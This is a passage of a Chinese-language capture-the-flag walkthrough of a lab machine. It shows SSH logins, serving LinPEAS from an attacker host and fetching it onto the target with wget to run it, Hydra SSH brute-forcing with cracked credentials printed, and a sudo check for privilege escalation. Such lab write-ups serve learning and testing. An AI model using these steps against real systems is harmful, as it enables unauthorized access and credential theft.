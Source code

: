 然后我们对这几个账号都尝试进行登陆

```
ssh janitor@192.168.56.112
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEjttrC3OSc2ar5O8xEaLEwZDpgmLagx2wXKp54IIBMdnP0e3tCKPwxw/640?wx_fmt=jpeg)

只有 janitor 的家目录存在一个名为. secrets-for-putin 的文件夹，并且在其中又得到一些密码

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEicJ9zdDtibZfaG9m8VOQEwPlQvBzBKiaCrxI2sGjliczsDCwtENdnhUXYQ/640?wx_fmt=jpeg)

我们把这些密码加入到 password 文件中

同时我们在 janitor 使用 LinPEAS 来探测下可利用的点

下载地址：https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite

现在 Kali 上开启 HTTP 服务

```
python3 ‐m http.server 80
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEjoK8X7SwvVJgPqrqDDdPkuHHaFc1FdSrHjU4CMAPE6gjvLicQfoxQ5A/640?wx_fmt=jpeg)

然后在靶机上进行下载

```
wget http://192.168.56.114/linpeas.sh
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEpZVA7m8ibicWXK6ElkMHsGUa2BuxfqgWbRVAOLGluSQgibSrQQ2Y2FIMQ/640?wx_fmt=jpeg)

然后运行之后，感觉并没有什么特别的点

```
bash linpeas.sh
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwE3JFLZhfZKTmVDWthyNQtNIlicFqntzHwb8RiafSQqstQpoV63aWbjiaTA/640?wx_fmt=jpeg)

再使用 hydra 使用刚刚更新过的 password 文件进行 SSH 爆破, 可以看到多了一个 fredf 用户

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwElxbXXXRPBu0jMjEHpAqIQ1nOYPjDxAefpp8xldmiabPWeuZH4Q3pQdw/640?wx_fmt=png)

```
[22][ssh] host: 192.168.56.112 login: fredf password: B4‐Tru3‐001 
[22][ssh] host: 192.168.56.112 login: janitor password: Ilovepeepee 
[22][ssh] host: 192.168.56.112 login: joeyt password: Passw0rd 
[22][ssh] host: 192.168.56.112 login: chandlerb password: UrAG0D!
```

然后登陆到 fredf 账号，查看下 fredf 的 sudo 权限, 可以看到 fredf 可以不用密码以 root 权限执 行 / opt/devstuff/dist/test/test 的文件

```
sudo ‐l
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwE2gW96IubUIJLFG0MCNsH1qtzeb6ypxrHvG0ecxVxRyIY7DrNtR6mvA/640?wx_fmt=jpeg)
